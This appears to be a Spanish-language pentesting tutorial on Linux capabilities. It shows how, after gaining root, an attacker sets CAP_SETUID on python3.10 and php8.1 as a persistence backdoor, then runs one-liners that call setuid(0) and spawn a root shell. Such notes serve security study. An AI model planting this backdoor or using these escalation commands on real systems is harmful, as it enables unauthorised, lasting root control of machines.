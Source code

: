 Si bien hasta el momento podemos otorgar *permisos privilegiados* a un usuario ya sea con *SUID* o con *sudo*, pero también existen las *capabilities*.

¿Qué son?
Son capacidades que se le puede asignar a un binario, existen varios [tipos de cabalilities](https://man7.org/linux/man-pages/man7/capabilities.7.html).
Como por ejemplo la capabilitie *CAP_SETUID* que hace referencia a la manipulación de UID de los procesos.

Ahora supongamos que obtuvimos acceso a un sistema con root, y se desea dejar alguna acción que nos permita escalar privilegios fácilmente en caso de desconectarnos.

Vamos a asignar un capabilitie de tipo *CAP_SETUID* a algún binario.

``` bash
❯ setcap cap_setuid+ep /usr/bin/python3.10

❯ getcap /usr/bin/python3.10
/usr/bin/python3.10 cap_setuid=ep
```

Una vez hecho esto podemos buscar los binarios que tengan alguna capabilitie

	getcap -r / 2>/dev/null

Este tipo de capabilitie nos permite ejecutar comando como otro usuario, revelando su uid, cada usuario lo tiene, lo puede visualizar con `id`, si bien sabemos el uid de root es 0.

``` bash
❯ getcap -r / 2>/dev/null
/usr/bin/python3.10 cap_setuid=ep

❯ ls -l /usr/bin/python3.10
.rwxr-xr-x root root 5.6 MB Thu Sep  8 09:34:29 2022  /usr/bin/python3.10
```

Como se puede observar no tiene permiso SUID pero si una capabilitie, ahora como hacemos uso de esta

``` bash
❯ python3.10 -c 'import os; os.setuid(0); os.system("/bin/bash")'
bash-5.2# whoami
root
```

*Remover una capabilitie*

	setcap -r /usr/bin/python3.10

Igualmente en [GTFobins ](https://gtfobins.github.io/#+capabilities) podemos encontrar algunas capabilities las cuales podemos utilizar para escalar privilegios.


*Explotación con php*
``` bash
❯ setcap cap_setuid+ep /usr/bin/php8.1

❯ getcap /usr/bin/php8.1
/usr/bin/php8.1 cap_setuid=ep
```

``` bash
bash-5.2$ php -r "posix_setuid(0); system('/bin/bash');"
bash-5.2# whoami
root
```